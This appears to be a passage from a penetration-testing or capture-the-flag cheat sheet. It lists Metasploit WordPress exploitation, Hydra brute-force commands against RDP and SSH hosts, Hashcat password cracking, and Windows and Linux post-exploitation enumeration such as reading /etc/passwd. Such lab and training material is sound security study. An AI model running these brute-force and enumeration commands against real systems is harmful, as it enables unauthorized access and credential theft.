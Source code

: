 **WordPress Exploitation:**
```bash
# Using Metasploit for vulnerable plugins
use exploit/unix/webapp/wp_plugin_vulnerability
```

#### Password Attacks

**Hydra for brute-forcing services:**
```bash
# RDP brute force
hydra -l Administrator -P /usr/share/wordlists/rockyou.txt 192.168.100.55 rdp

# SSH brute force
hydra -l mary -P /usr/share/wordlists/rockyou.txt 192.168.100.67 ssh
```

**Password cracking with Hashcat:**
```bash
hashcat -m 1000 hash.txt /usr/share/wordlists/rockyou.txt
```

### 4. Post-Exploitation

#### Windows Systems

**PowerShell for information gathering:**
```powershell
# System information
systeminfo

# Network connections
netstat -ano

# User accounts
net user
net localgroup administrators

# Scheduled tasks
schtasks /query /fo LIST /v
```

**Access token manipulation:**
```cmd
runas /user:Administrator cmd.exe
```

**File access and search:**
```cmd
dir C:\Users\Administrator\Desktop /s /b
type C:\Users\Administrator\flag.txt
```

#### Linux Systems

**Linux enumeration:**
```bash
# System information
uname -a
cat /etc/issue

# User information
cat /etc/passwd
sudo -l

# Finding specific files
find / -name flag.txt 2>/dev/null
```
